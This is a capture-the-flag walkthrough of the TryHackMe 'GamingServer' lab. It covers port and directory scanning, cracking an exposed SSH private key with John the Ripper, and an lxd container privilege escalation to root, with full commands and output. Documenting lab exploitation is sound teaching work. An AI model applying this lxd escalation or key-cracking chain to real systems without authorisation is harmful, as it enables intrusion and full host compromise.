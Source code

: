 # GamingServer

[https://tryhackme.com/r/room/gamingserver](https://tryhackme.com/r/room/gamingserver)

### **USER_FLAG{ } :**

1. we get the target ip which is 10.10.73.9
2. after doing an port scan  → 

`nmap -sC -sV 10.10.73.9 >> nmap.txt`

![alt text](https://github.com/Ruhanyat-994/ctf-capture_the_flag-/blob/master/ctf%20%7Bpersonal_go%7D/TryHackMe-Roadmap-main/Photos/game_server-1.png?raw=true)

1. there are only two ports open ssh and http
2. if we go to that IP we can find a website

[![alt text](https://github.com/Ruhanyat-994/ctf-capture_the_flag-/blob/master/ctf%20%7Bpersonal_go%7D/TryHackMe-Roadmap-main/Photos/game_server-2.png?raw=true)
1. and in the dev tools we can have a potential user name which is john
2. for finding hidden files and directories we can use 

`gobuster dir -u [http://10.10.73.9](http://10.10.73.9/) -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -x .html,.php,.txt`

1. we found some directories

[![alt text](https://github.com/Ruhanyat-994/ctf-capture_the_flag-/blob/master/ctf%20%7Bpersonal_go%7D/TryHackMe-Roadmap-main/Photos/game_server-3.png?raw=true)
1. `/about.html (Status: 200)
/about.php (Status: 200)
/index.html (Status: 200)
/robots.txt (Status: 200)
/uploads (Status: 301)
/myths.html (Status: 200)
/secret (Status: 301)`
2. In the `/secret` directory, we have a file named `secretKey` which contains a private key. We have SSH installed on the target machine. This could be the private SSH key of user `john`.
3. 

![alt text](https://github.com/Ruhanyat-994/ctf-capture_the_flag-/blob/master/ctf%20%7Bpersonal_go%7D/TryHackMe-Roadmap-main/Photos/game_server-4.png?raw=true)

1. but this thing is password protected
2. We also have a `/uploads` which contains some interesting files.
    
    ![https://digitalpress.fra1.cdn.digitaloceanspaces.com/iozzwn2/2023/01/g-uploads.png](https://digitalpress.fra1.cdn.digitaloceanspaces.com/iozzwn2/2023/01/g-uploads.png)
    
    Of course we need to check the `meme.jpg` first :D
    
    ![https://digitalpress.fra1.cdn.digitaloceanspaces.com/iozzwn2/2023/01/g-meme.png](https://digitalpress.fra1.cdn.digitaloceanspaces.com/iozzwn2/2023/01/g-meme.png)
    
    We also have a "The Hacker Manifesto" which looks pretty neat!
    
    ![https://digitalpress.fra1.cdn.digitaloceanspaces.com/iozzwn2/2023/01/g-manifesto.png](https://digitalpress.fra1.cdn.digitaloceanspaces.com/iozzwn2/2023/01/g-manifesto.png)
    
    There is another file named `dict.lst` which looks like a wordlist. Let's download this to our system. We can use this wordlist to crack the private key!
    
3. User Shell
    
    We can use John the Ripper tool to crack the password for the private key of user `john`.
    
    We need to convert the `secretKey` into a format that John can understand.We will be using `ssh2john.py` for this.
    
    I'll save the output in `hash.txt` and then we can crack the password with the wordlist we found using John the Ripper.
    
 ![Untitled](https://github.com/Ruhanyat-994/ctf-capture_the_flag-/blob/master/ctf%20%7Bpersonal_go%7D/TryHackMe-Roadmap-main/Photos/game_server-8.png?raw=true)    
    
    We got the password for the private key. Now we can login via SSH and read the user flag!
    
4. Now we ave to use  `ssh -i secretKey [john@10.10.215.18](mailto:john@10.10.215.18)`

![Untitled](https://github.com/Ruhanyat-994/ctf-capture_the_flag-/blob/master/ctf%20%7Bpersonal_go%7D/TryHackMe-Roadmap-main/Photos/game_server-9.png?raw=true)
![Untitled](https://github.com/Ruhanyat-994/ctf-capture_the_flag-/blob/master/ctf%20%7Bpersonal_go%7D/TryHackMe-Roadmap-main/Photos/game_server-10.png?raw=true)
in this form we need to give te secretKey 600 chmod permissio (600 permissions means that **only the owner of the file has full read and write access to it**.)

ssh private key needs 600  permission

### **ROOT_FLAG{ }:**

1. We have a shell as user `john` and now we need to find a way to escalate our privileges to root.

If we use the `id` command, we can see that the user `john` is a part of the `lxd` group.
[
![Untitled](https://github.com/Ruhanyat-994/ctf-capture_the_flag-/blob/master/ctf%20%7Bpersonal_go%7D/TryHackMe-Roadmap-main/Photos/game_server-11.png?raw=true)

LXD is a lightweight container hypervisor which allows to run linux containers. If a member is part of the `lxd` group, it can escalate its privileges to user `root` irrespective of the fact that it has sudo permissions or not.

I found [this](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation?ref=infosecarticles.com) guide related to `lxd` privilege escalation. We need to build an `alpine` image and then we can mount the `/root` directory of  the target machine to the `/mnt` directory of a `lxd` container.

1. First we need to build the image in our own machine:
    
    ```
    git clone https://github.com/saghul/lxd-alpine-builder.git
    cd lxd-alpine-builder
    ./build-alpine
    
    ```
    
    This will create a `.tar.gz` compressed image similar to this:
    
    ![Untitled](https://github.com/Ruhanyat-994/ctf-capture_the_flag-/blob/master/ctf%20%7Bpersonal_go%7D/TryHackMe-Roadmap-main/Photos/game_server-12.png?raw=true)
    
    Next we need to copy the compressed file to the target machine and then import the image using `lxc`.
    
    ```
    john@exploitable:~$ lxc image import ./alpine-* --alias myimage
    Image imported with fingerprint: cd73881adaac667ca3529972c7b380af240a9e3b09730f8c8e4e6a23e1a7892b
    ```
    
    ```
    john@exploitable:~$ lxc image list
    +---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
    |  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE         |
    +---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
    | myimage | cd73881adaac | no     | alpine v3.13 (20210218_01:39) | x86_64 | 3.11MB | Jan 7, 2023 at 6:10pm (UTC) |
    +---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
    john@exploitable:~$ lxc init myimage image -c security.privileged=true
    Creating image
    ```
    
    ```
    john@exploitable:~$ lxc config device add image mydevice disk source=/ path=/mnt/root recursive=true
    Device mydevice added to image
    ```
    
    ```
    john@exploitable:~$ lxc start image
    ```
    
    Our container has been created. Now we can simply start the container and read our final flag in the `/mnt/root/root` directory!
    
    ```
    john@exploitable:~$ lxc exec image /bin/sh
    ~ # id
    uid=0(root) gid=0(root)
    ~ # cd /mnt/root/root/
    /mnt/root/root # cat root.txt
    ********************************
    
    ```
    
2. In the middle section you have to run a simple http server and the you have to wget with your machines ip address tun0 in the target machine.s

![Untitled](https://github.com/Ruhanyat-994/ctf-capture_the_flag-/blob/master/ctf%20%7Bpersonal_go%7D/TryHackMe-Roadmap-main/Photos/game_server-12.png?raw=true)

at last !

![Untitled](https://github.com/Ruhanyat-994/ctf-capture_the_flag-/blob/master/ctf%20%7Bpersonal_go%7D/TryHackMe-Roadmap-main/Photos/game_server-14.png?raw=true)

### **Alhumdulillah!**
